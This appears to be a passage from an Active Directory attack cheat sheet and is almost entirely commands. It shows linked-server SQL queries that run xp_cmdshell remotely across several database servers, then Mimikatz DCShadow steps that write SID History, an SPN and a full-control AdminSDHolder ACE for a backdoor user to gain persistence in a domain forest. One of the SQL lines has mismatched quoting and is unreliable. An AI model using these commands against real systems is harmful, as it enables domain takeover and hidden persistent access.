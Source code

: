 ```powershell
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt","select * from openquery("eu-sql.eurocorp.local",""select @@version as version; exec master..xp_cmdshell "powershell whoami""")")")')

# Executing a remote whoami
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt","select * from openquery("eu-sql.eu.corporate.local",""select@@version as version;exec master..xp_cmdshell "powershell whoami)"")")')

```

# Forest Persistence DCShadow

**1. Setting the permissions:**
```powershell
# Setting the permissions
Set-DCShadowPermissions -FakeDC corp-user1 -SAMAccountName root1user -Username user1 -Verbose
```
**2. Use Mimikatz to stage the DCShadow attack:**
```powershell
# Set SPN for user
lsadump::dcshadow /object:TargetUser /attribute:servicePrincipalName /value:"SuperHacker/ServicePrincipalThingey"
# Set SID History for user
lsadump::dcshadow /object:TargetUser /attribute:SIDHistory /value:S-1-5-21-280565432-1493477821-700767426-345
# Requires retrieval of current ACL:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com")).psbase.ObjectSecurity.sddl
# Then get target user SID:
Get-NetUser -UserName BackdoorUser | select objectsid
# Add full control primitive for user
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)[...currentACL...](A;;CCDCLCSWRPWPLOCRRCWDWO;;;[[S-1-5-21-280565432-1493477821-700767426-345]])
```
